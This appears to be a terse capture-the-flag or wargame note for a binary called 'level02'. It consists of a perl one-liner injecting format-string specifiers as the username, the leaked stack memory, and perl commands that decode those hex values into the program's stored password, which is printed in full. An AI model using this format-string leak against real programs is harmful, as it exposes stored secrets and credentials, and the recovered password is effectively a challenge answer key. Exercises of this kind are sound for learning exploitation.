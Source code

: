 (perl -e '$word = 20;for ($count = $word; $count < $word + 8; $count +=1){    print("%$count\$p ");}pri
nt("\n");' ; perl -e 'print "\n"' ; cat) | ./level02

--[ Username: --[ Password: *****************************************
0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil)  does not have access!

perl -e '$test=pack("H*", "756e505234376848"); @test2 = unpack("V*", $test); printf("%X %X ", @test2)'

52506E75 48683734 354A4145 51397361 43717A37 58674E57 68354A35 7358476E 50673348 4D394B66
RPnuHh745JAEQ9saCqz7XgNWh5J5sXGnPg3HM9Kf

4868373452506e75 51397361354a4145
